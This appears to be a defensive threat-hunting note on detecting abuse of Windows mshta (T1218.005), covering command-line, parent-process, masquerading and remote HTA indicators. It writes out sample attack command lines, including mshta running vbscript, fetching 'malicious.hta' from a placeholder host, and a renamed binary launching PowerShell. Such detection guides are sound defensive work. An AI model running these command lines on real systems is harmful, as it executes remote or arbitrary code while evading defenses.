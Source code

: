 ```yaml
---
title: mshta Hunt
category: Defense Evasion
tags: [TECHNIQUE T1218.005, System Binary Proxy Execution, HTA, windows]
---
```

Mshta is attractive to adversaries both in the early and latter stages of an infection because it enables them to proxy the execution of arbitrary code through a trusted utility.
# Process and command-line monitoring
# Monitor process execution and command-line parameters for suspicious use of Mshta
Look for Mshta being executed with command lines containing protocol handlers like javascript, vbscript, about, etc.

**Example:**

```mshta vbscript:CreateObject("WScript.Shell").Run("notepad.exe")(window.close)```

Collect parent-child process relationships and identify any suspicious process lineage patterns involving Mshta.

**Example:**

Parent process: winword.exe

Child process: mshta.exe

# Monitor process metadata
Internal process name: mshta.exe
	Apparent filename: calc.exe

# File monitoring and network connections
Monitor file activity for the presence of Mshta-related files, such as HTA files (ending with .hta extension).
Look for Mshta executing remotely hosted HTA content via URIs or UNC paths.
	Command line: mshta http://example.com/malicious.hta

# Suspicious process ancestry
For example, an adversary conducting a phishing attack might embed a macro in a Microsoft Word document that executes a malicious HTA file.

# Parent process: winword.exe
Child process: mshta.exe

# Mshta masquerading
```C:\Test\notepad.exe "javascript:a=new ActiveXObject("WScript.Shell");a.Run("powershell.``` 

```exe%20-nop%20-Command%20Write-Host%20f83a289e-8218-459c-9ddb-ccd3b72c732a;%20Start-Sleep%20-Seconds%202;%20exit",0,true);close();"```

# Network connections and HTA content
File extension: .pdf
MIME type: application/hta

# False positive mitigation
Fine-tune detection logic to account for legitimate and expected use of Mshta in your environment.

# Reference
https://redcanary.com/threat-detection-report/techniques/mshta/#:~:text=Suspicious%20process%20ancestry,executes%20a%20malicious%20HTA%20file.